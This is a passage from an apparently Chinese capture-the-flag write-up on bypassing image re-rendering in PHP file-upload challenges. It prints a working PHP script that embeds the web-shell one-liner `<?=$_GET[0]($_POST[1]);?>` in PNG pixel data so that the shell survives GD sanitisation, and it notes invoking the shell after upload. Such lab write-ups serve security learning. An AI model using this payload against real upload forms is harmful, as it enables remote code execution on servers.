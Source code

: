 [https://www.php.net/manual/zh/ref.image.php](https://www.php.net/manual/zh/ref.image.php)

注意 gif png jpeg 绕过二次渲染的方法并不相同

参考这篇文章 [https://xz.aliyun.com/t/2657](https://xz.aliyun.com/t/2657)

这里直接贴 png payload 的代码

```php
<?php
$p = array(0xa3, 0x9f, 0x67, 0xf7, 0x0e, 0x93, 0x1b, 0x23,
           0xbe, 0x2c, 0x8a, 0xd0, 0x80, 0xf9, 0xe1, 0xae,
           0x22, 0xf6, 0xd9, 0x43, 0x5d, 0xfb, 0xae, 0xcc,
           0x5a, 0x01, 0xdc, 0x5a, 0x01, 0xdc, 0xa3, 0x9f,
           0x67, 0xa5, 0xbe, 0x5f, 0x76, 0x74, 0x5a, 0x4c,
           0xa1, 0x3f, 0x7a, 0xbf, 0x30, 0x6b, 0x88, 0x2d,
           0x60, 0x65, 0x7d, 0x52, 0x9d, 0xad, 0x88, 0xa1,
           0x66, 0x44, 0x50, 0x33);



$img = imagecreatetruecolor(32, 32);

for ($y = 0; $y < sizeof($p); $y += 3) {
   $r = $p[$y];
   $g = $p[$y+1];
   $b = $p[$y+2];
   $color = imagecolorallocate($img, $r, $g, $b);
   imagesetpixel($img, round($y / 3), 0, $color);
}

imagepng($img,'./1.png');
?>
```

生成的一句话是 `<?=$_GET[0]($_POST[1]);?>`

上传后传参

![20220803200210](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/20220803200210.png)

## web165

上传 png

![20220803200651](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/20220803200651.png)

burp 抓包无数据, 应该是前端验证

![20220803200733](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/20220803200733.png)

上传后发现文件也被重命名了, 估计跟上题一样是二次渲染

jpg payload 用上面文章给出的 payload 生成
